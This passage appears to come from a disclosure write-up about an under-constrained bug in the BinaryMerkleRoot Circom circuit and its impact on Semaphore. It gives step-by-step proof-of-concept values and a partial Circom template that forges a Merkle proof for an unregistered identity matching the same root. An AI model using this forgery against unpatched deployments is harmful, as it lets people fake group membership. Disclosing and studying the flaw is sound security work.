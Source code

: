```
root 3330844108758711782672220159612173083623710937399719017074673646455206473965
evilroot 3330844108758711782672220159612173083623710937399719017074673646455206473965 
```
    
## Impact on Semaphore

The following code can be tested on [zkrepl](https://zkrepl.dev/).

#### Steps

1. Create a Semaphore identity and assign its `secretScalar` to `secret`.
2. Assign `merkleProofLength`, `merkleProofIndices` and `merkleProofSiblings`, according to the tree. 
4. Assign the `secretScalar` of the identity you want to test to `evilsecret`. The identity for the example is a deterministic Semaphore identity with private key: `"123456"`.
5. Assign the value `18699903263915756199535533399390350858126023699350081471896734858638858200219` to `target0`.
6. Assign the value: `15684639248941018939207157301644512532843622097494605257727533950250892147976` to `target1`.
7. Set `N` to the commitment of the Semaphore identity with secret scalar `evilsecret`, in this case `6064632857532276925033625901604953426426313622216578376924090482554191077680`.
8. You will get two values: `sel` (used in `evilmerkleProofIndices`) and `S` (used in `evilmerkleProofSiblings`).
9. Use any values you prefer for `message`, `scope`, `evilmessage` and `evilscope`.

![Sage Math Semaphore](/articles/under-constrained-bug-in-binary-merkle-root-circuit-fixed-in-v200/sage-math-semaphore.png)

#### Circom Code

```circom
pragma circom 2.1.5;

include "circomlib/circuits/poseidon.circom";
include "circomlib/circuits/mux1.circom";
include "circomlib/circuits/comparators.circom";
include "circomlib/circuits/babyjub.circom";

// Copy/paste BinaryMerkleRoot circuit from https://github.com/privacy-scaling-explorations/zk-kit.circom/blob/binary-merkle-root.circom-v1.0.0/packages/binary-merkle-root/src/binary-merkle-root.circom
    
// Copy/paste Semaphore circuit from https://github.com/semaphore-protocol/semaphore/blob/v4.11.1/packages/circuits/src/semaphore.circom

template Poc () {

//          Root: 4905128572429258830106379299856267023583307500817503813881845182698965800745
//            /                                                                            \
// 18699903263915756199535533399390350858126023699350081471896734858638858200219   15684639248941018939207157301644512532843622097494605257727533950250892147976


    var secret = 1978755119068081247093963160279604962264019399313700915496711871956252953559;
    var merkleProofLength = 1;
    var merkleProofIndices[10] = [
        0, 0, 0, 0, 0, 0, 0,
        0, 0, 0
    ];
    var merkleProofSiblings[10] = [
        15684639248941018939207157301644512532843622097494605257727533950250892147976, 0, 0, 0, 0, 0, 0,
        0, 0, 0
    ];
    var message = 123;
```